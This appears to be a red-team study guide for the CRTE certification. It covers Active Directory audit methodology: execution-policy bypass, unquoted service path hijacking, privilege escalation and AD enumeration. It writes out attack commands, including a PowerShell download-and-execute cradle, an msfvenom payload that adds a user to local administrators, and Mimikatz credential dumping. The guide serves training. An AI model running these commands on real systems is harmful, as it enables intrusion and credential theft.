 # General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation:Domain Admin is not the only way to own an Active Directory environment.

>:exclamation:CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\0xdemiafk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\0xdemiafk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\0xdemiafk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\0xdemiafk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .PowerView.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\0xdemiafk\Documents\> whoami /GROUPS
```

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\0xdemiafk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Importing and executing PowerUp

```
PS C:\Users\0xdemiafk\Documents\> Import-Module PowerUp.ps1; Invoke-AllChecks
```


### Importing Active Directory Module.

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\ActiveDirectory.psd1
```
### Importing PowerView

```
PS C:\Users\0xdemiafk\Documents\> .\PowerView.ps1
```

## Step 02 - Local Privilege Escalation

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
0xdemiafk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using local administrator permission)

```
PS C:\Users\0xdemiafk\Documents\> Import-Module Mimikatz.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> Invoke-Mimikarz -Command "'sekurlsa::ekeys'"
```


## Step 03 - Active Directory enumeration

>:eye: Useful tools for enumerating
>
>PowerView -> Great tool for Active Directory enumeration.
>ADModule -> Signed DLL used for Active Directory management.
>PowerUPSQL -> Dedicated tool for auditing MSSQL.

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\0xdemiafk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```


